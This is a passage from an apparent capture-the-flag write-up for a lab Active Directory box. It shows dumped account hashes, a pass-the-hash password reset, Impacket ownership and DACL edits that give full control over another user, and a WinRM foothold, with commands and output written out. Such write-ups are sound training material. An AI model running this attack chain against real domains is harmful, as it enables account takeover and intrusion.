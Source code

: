     Users or groups who can read password for ansible_dev$:
     > Infrastructure
    ansible_dev$:::1c37d00093dc2a5f25176bf2d474afdc
    ansible_dev$:aes256-cts-hmac-sha1-96:526688ad2b7ead7566b70184c518ef665cc4c0215a1d634ef5f5bcda6543b5b3
    ansible_dev$:aes128-cts-hmac-sha1-96:91366223f82cd8d39b0e767f0061fd9a


Then use ansible_dev to reset sam's password to log into sam.

```sh
┌──(root㉿5888b0a15c0f)-[/bin]
└─# pth-net rpc password "sam" "Password1234!" -U "tombwatcher"/"ansible_dev$"%"ffffffffffffffffffffffffffffffff:1c37d00093dc2a5f25176bf2d474afdc" -S "tombwatcher.htb"
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...

Finally using sam, use the dacl permissions to add full control over john.

```sh
/opt/venv/bin # owneredit.py -action write -new-owner 'sam' -target 'john' 'tombwatcher.htb/sam':'Password1234!'
Impacket v0.13.0.dev0+20250109.91705.ac02e0e - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-1392491010-1358638721-2126982587-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=tombwatcher,DC=htb
[*] OwnerSid modified successfully!

```sh
/opt/venv/bin # dacledit.py -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'tombwatcher.htb'/'sam':'Password1234!'
Impacket v0.13.0.dev0+20250109.91705.ac02e0e - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250608-080615.bak
[*] DACL modified successfully!


```python
!net rpc password "john" "Password1234!" -U "tombwatcher.htb"/"sam"%"Password1234!" -S "tombwatcher.htb"
```

    Can't load /etc/samba/smb.conf - run testparm to debug it


And now we're in the box.

## Foothold

```sh
*Evil-WinRM* PS C:\Users\john\Desktop> whoami /all

USER INFORMATION
----------------

User Name        SID
================ ==============================================
tombwatcher\john S-1-5-21-1392491010-1358638721-2126982587-1106


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
```